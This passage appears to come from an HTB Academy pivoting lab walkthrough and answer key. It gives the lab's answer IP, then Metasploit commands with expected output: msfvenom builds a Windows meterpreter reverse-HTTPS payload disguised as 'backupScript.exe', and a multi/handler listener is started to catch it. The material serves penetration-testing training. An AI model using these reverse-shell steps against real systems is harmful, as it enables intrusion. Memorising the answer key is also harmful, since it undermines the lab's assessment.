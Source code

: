 1. **Plan payload configuration** carefully (pivot internal IP)
2. **Use appropriate ports** for forwarding
3. **Test connectivity** at each step
4. **Monitor tunnel status** during operations
5. **Clean up** all artifacts after assessment
6. **Document** forwarding configurations for reporting

---

## **HTB Academy Official Answer Key**

### **Complete Official Walkthrough with Expected Outputs**

**Lab Question:** "Which IP address assigned to the Ubuntu server Pivot host allows communication with the Windows server target? (Format: x.x.x.x)"

**Official Answer:** `172.16.5.129`

#### **Step 1: Create Windows HTTPS Reverse Shell Payload**
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 LPORT=8080 -f exe -o backupScript.exe
```

**Expected Output:**
```
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 LPORT=8080 -f exe -o backupScript.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 741 bytes
Final size of exe file: 7168 bytes
Saved as: backupScript.exe
```

#### **Step 2: Configure and Start Msfconsole Multi-Handler**
```bash
sudo msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 8000
run
```

**Expected Output:**
```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sudo msfconsole -q

msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_https
PAYLOAD => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 8000
LPORT => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```
